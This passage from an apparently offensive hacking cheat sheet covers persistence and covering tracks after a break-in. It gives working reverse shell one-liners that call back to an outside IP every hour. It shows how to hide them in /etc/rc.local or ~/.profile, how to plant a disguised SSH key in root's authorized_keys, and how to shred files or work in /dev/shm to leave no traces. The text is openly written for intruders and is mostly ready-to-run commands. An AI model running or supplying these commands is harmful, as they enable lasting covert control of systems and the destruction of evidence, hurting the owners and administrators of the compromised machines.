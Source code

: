 <a id="bd-anchor"></a>
<a id="bdrs-anchor"></a>
**6.i. Background reverse shell**

A reverse shell that keeps trying to connect back to us every 3600 seconds (indefinitely). Often used until a real backdoor can be deployed and guarantees easy re-entry to a system in case our connection gets disconnected. 

```
$ while :; do setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1; sleep 3600; done &>/dev/null &
```

or add to */etc/rc.local*:
```
nohup bash -c 'while :; do setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1; sleep 3600; done' &>/dev/null &
```

or the user's *~/.profile* (also stops multiple instances from being started):
```
fuser /dev/shm/.busy &>/dev/null
if [ $? -eq 1 ]; then
        nohup /bin/bash -c 'while :; do touch /dev/shm/.busy; exec 3</dev/shm/.busy; setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1 ; sleep 3600; done' &>/dev/null &
fi
```


<a id="bdak-anchor"></a>
**6.ii. authorized_keys**

Add your ssh public key to */root/.ssh/authorized_keys*. It's the most reliable backdoor ever :>

* It survives reboots.
* It even survives re-installs. Admins have been known to make a backup of authorized_keys and then put it straight back onto the newly installed system.
* We have even seen our key being copied to other companies!

Tip: Change the name at the end of the ssh public keyfile to something obscure like *backup@ubuntu* or the admin's real name:
```
$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCktFkgm40GDkqYwJkNZVb+NLqYoUNSPVPLx0VDbJM0
[...]
u1i+MhhnCQxyBZbrWkFWyzEmmHjZdAZCK05FRXYZRI9yadmvo7QKtRmliqABMU9WGy210PTOLMltbt2C
c3zxLNse/xg0CC16elJpt7IqCFV19AqfHnK4YiXwVJ+M+PyAp/aEAujtHDHp backup@ubuntu
```

---
<a id="sh-anchor"></a>
<a id="shsf-anchor"></a>
**7.i. Shred & Erase a file**

```
$ shred -z foobar.txt
```

<a id="shsfwo-anchor"></a>
**7.ii. Shred & Erase without *shred***
```
$ FN=foobar.txt; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```
Note: Or deploy your files in */dev/shm* directory so that no data is written to the harddrive. Data will be deleted on reboot.
